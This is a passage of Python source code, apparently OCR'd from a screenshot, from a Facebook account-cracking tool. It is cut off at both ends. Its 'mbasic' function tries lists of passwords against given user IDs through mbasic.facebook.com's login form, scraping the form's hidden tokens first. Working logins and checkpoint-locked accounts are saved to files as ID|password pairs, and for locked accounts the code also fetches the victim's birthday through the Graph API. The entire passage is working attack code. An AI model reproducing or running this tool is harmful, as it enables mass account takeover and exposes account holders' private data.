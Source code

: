     loop += 1

def mbasic(uid, fii):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = "nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+"
	global ok, cp, loop, token, cookie
	sys.stdout.write(f"\r{P}[•] >>>>>> {B} {loop}/{len(id)} {I}OK : {B}{len(ok)} {K}CP : {B}{len(cp)}");sys.stdout.flush()
	for pw in fii:
		fii_gtg = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://mbasic.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:fii_gtg.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		fii_gtg.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		deku = ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=fii_gtg)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print(f"\r{B} |----> {I}{uid}•{pw}")
			ok.append("%s|%s"%(uid, pw))
			open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token  = open('login/token.json','r').read()
				cookie = {'cookie':open('login/cookie.json','r').read()}
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token),cookies=cookie).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print(f"\r{B} |----> {K}{uid}•{pw}•{day} {month} {year}")
					cp.append("%s|%s"%(uid, pw))
					open("CP/%s.json"%(tanggal),"a").write("%s|%s|%s %s %s\n"%(uid, pw, day, month, year))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			cek_log(uid,pw,ua)
			print(f"\r{B} |----> {K}{uid}•{pw}")
			cp.append("%s|%s"%(uid, pw))
			open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		else: